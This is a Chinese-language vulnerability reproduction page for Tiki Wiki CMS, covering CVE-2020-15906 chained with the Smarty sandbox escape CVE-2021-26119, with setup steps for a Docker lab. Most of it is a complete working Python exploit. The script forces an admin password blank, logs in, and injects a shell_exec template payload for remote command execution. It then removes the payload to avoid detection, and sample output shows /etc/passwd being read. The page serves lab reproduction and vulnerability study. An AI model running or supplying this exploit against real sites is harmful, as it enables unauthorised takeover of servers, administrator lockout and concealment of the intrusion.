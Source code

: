 # Tiki Wiki CMS Groupware 认证绕过漏洞 CVE-2020-15906

## 漏洞描述

Tiki Wiki CMS Groupware或简称为Tiki（最初称为TikiWiki）是一种免费且开源的基于Wiki的内容管理系统和在线办公套件。在如下这些版本21.2, 20.4, 19.3, 18.7, 17.3, 16.4前存在一处逻辑错误，管理员账户被爆破60次以上时将被锁定，此时使用空白密码即可以管理员身份登录后台。

参考链接：

- https://info.tiki.org/article473-Security-Releases-of-all-Tiki-versions-since-16-3
- https://github.com/S1lkys/CVE-2020-15906
- http://packetstormsecurity.com/files/159663/Tiki-Wiki-CMS-Groupware-21.1-Authentication-Bypass.html
- https://srcincite.io/pocs/cve-2021-26119.py.txt

## 环境搭建

Vulhub执行如下命令启动一个Tiki Wiki CMS 21.1：

> 需要通过`dos2unix docker-entrypoint.sh`命令将其转换成为unix格式文件。

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/tiki-login_scr.php`可以看到其欢迎页面。

## 漏洞复现

我们可以使用https://srcincite.io/pocs/cve-2021-26119.py.txt中的[POC](https://github.com/vulhub/vulhub/blob/master/tikiwiki/CVE-2020-15906/poc.py)进行复现。该POC先使用CVE-2020-15906绕过认证，获取管理员权限；再使用Smarty的沙盒绕过漏洞（CVE-2021-26119）于后台执行任意命令：

```
python poc.py your-ip:8080 / id
```

![image-20220302153818245](images/202203021538346.png)

注意，受到漏洞原理的影响，执行该POC会导致管理员账户被锁定。

## 漏洞POC

```python
#!/usr/bin/env python3
"""
Tiki Wiki CMS GroupWare Serverside Template Injection Remote Code Execution Vulnerability
This is a demonstration of CVE-2021-26119 (Smarty Template Engine template_object Sandbox Escape PHP Code Injection)
Written by: Steven Seeley of Qihoo 360 Vulcan Team
Exploit tested against: Tiki Wiki 20.3 (Tarazed)

Bug 1: CVE-2020-15906
    - An unauthenticated user can bypass the authentication by bruteforcing the admin account > 50 times and login with a blank password
    - Works on: <= 21.1 (UY_Scuti)
    
Bug 2: CVE-2021-26119 
    - An admin user can trigger a serverside template injection and gain remote code execution by escaping the sandbox of the Smarty Template Engine by leveraging the 'template_object' property
    - Works on: <= 22.2 (Corona_Borealis) and impacts Smarty <= 3.1.38 (latest)

# Notes

- *WARNING* This exploit will lock out the administrator account
- It was possible in older versions of Tiki Wiki (including 20.3) that you could:

  1. Edit Smarty templates with a user that had the 'tiki_p_edit_templates' privilege, but Tiki clued into this and has since disabled this 'feature' by default, see using [Risky preferences](https://doc.tiki.org/Risky-Preferences)
  2. Disable the Smarty sandbox entirely by unchecking the "Smarty Security" checkbox in the general security tab which is no longer possible.

  However it's still possible for an admin (or user with the 'tiki_p_admin' permission assigned) to add Smarty template syntax to the 'feature_custom_html_head_content' option under [Customization](http://doc.tiki.org/Customization) in the [Look and Feel](http://doc.tiki.org/Look-and-Feel) control panel menu. This is enough for attackers to escape the Smarty sandbox leveraging either CVE-2021-26119 or CVE-2021-26120 and execute arbitrary remote code.

# Example

researcher@incite:~/tiki$ ./poc.py
(+) usage: ./poc.py <host> <path> <cmd>
(+) eg: ./poc.py 192.168.75.141 / id
(+) eg: ./poc.py 192.168.75.141 /tiki-20.3/ id

researcher@incite:~/tiki$ ./poc.py 192.168.75.141 /tiki-20.3/ "id;uname -a;pwd;head /etc/passwd"
(+) blanking password...
(+) admin password blanked!
(+) getting a session...
(+) auth bypass successful!
(+) triggering rce...

uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux target 5.8.0-40-generic #45-Ubuntu SMP Fri Jan 15 11:05:36 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
/var/www/html/tiki-20.3
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin

# References

- Maximilian Barz's poc at https://github.com/S1lkys/CVE-2020-15906
"""

import requests
import sys
import re

def auth_bypass(s, t, d):
    h = { "referer" : t }
    d["ticket"] = get_ticket(s, "%stiki-login.php" % t)
    d["pass"] = "" # auth bypass is here
    r = s.post("%stiki-login.php" % t, data=d, headers=h)
    r = s.get("%stiki-admin.php" % t)
    assert ("You do not have the permission that is needed" not in r.text), "(-) authentication bypass failed!"

def black_password(s, t, d):
    uri = "%stiki-login.php" % t
    # setup cookies here
    s.get(uri)
    ticket = get_ticket(s, uri)
    # crafted especially so unsuccessful_logins isn't recorded
    for i in range(0, 51):
        r = s.post(uri, d)
        if("Account requires administrator approval." in r.text):
            print("(+) admin password blanked!")
            return
    raise Exception("(-) auth bypass failed!") 

def get_ticket(s, uri):
    h = { "referer" : uri }
    r = s.get(uri)
    match = re.search('class="ticket" name="ticket" value="(.*)" \/>', r.text)
    assert match, "(-) csrf ticket leak failed!"
    return match.group(1)

def trigger_or_patch_ssti(s, t, c=None):
    # CVE-2021-26119
    p = { "page": "look" }
    h = { "referer" : t }
    bypass = "startrce{$smarty.template_object->smarty->disableSecurity()->display('string:{shell_exec(\"%s\")}')}endrce" % c
    d = {
        "ticket" : get_ticket(s, "%stiki-admin.php" % t),
        "feature_custom_html_head_content" : bypass if c else '',
        "lm_preference[]": "feature_custom_html_head_content"
    }
    r = s.post("%stiki-admin.php" % t, params=p, data=d, headers=h)
    r = s.get("%stiki-index.php" % t)
    if c != None:
        assert ("startrce" in r.text and "endrce" in r.text), "(-) rce failed!"
        cmdr = r.text.split("startrce")[1].split("endrce")[0]
        print(cmdr.strip())

def main():
    if(len(sys.argv) < 4):
        print("(+) usage: %s <host> <path> <cmd>" % sys.argv[0])
        print("(+) eg: %s 192.168.75.141 / id"% sys.argv[0])
        print("(+) eg: %s 192.168.75.141 /tiki-20.3/ id" % sys.argv[0])
        return
    p = sys.argv[2]
    c = sys.argv[3]
    p = p + "/" if not p.endswith("/") else p
    p = "/" + p if not p.startswith("/") else p
    t = "http://%s%s" % (sys.argv[1], p)
    s = requests.Session()
    print("(+) blanking password...")
    d = {
        'user':'admin', 
        'pass':'trololololol',
    }
    black_password(s, t, d)
    print("(+) getting a session...")
    auth_bypass(s, t, d)
    print("(+) auth bypass successful!")
    print("(+) triggering rce...\n")
    # trigger for rce
    trigger_or_patch_ssti(s, t, c)
    # patch so we stay hidden
    trigger_or_patch_ssti(s, t)

if __name__ == '__main__':
    main()
```

